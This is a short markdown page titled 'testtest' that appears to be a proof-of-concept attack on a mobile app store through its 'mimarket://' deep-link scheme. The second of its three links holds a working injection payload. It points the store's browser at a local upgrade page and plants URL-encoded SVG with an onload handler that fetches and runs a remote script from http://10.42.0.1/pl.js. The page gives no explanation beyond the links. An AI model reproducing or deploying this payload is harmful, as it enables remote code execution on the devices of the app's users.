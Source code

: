 # testtest


[1] (mimarket://browse?title=aaa&url=target)

[2](mimarket://browse?url=file://manual-upgrade.html?manualUpgradeInfo={"changeLog":"<svg onload%3D\"javascript:j%3Ddocument.createElement('script');j.src%3D'http://10.42.0.1/pl.js';document.getElementsByTagName('head')[0].appendChild(j);\" xmlns%3D\"http://www.w3.org/2000/svg\"></svg>"}&title=butts)

[3](mimarket://browse?url=file://manual-upgrade.html?manualUpgradeInfo=&title=butts)
